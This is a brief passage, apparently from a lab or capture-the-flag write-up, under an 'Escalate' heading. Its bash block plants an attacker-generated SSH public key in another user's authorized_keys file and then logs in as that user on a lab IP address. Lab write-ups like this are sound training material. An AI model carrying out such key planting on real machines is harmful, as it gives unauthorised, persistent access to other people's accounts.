 ## Escalate
```bash
# on the attacker side
cd /home/victor/.ssh
ssh-keygen
cat id_rsa.pub # copy the output to memory

# on the victim side
cd /home/james/.ssh
vim authorized_keys # copy and paste your id_rsa.pub key

# on the attacker side
ssh james@10.10.62.200
```
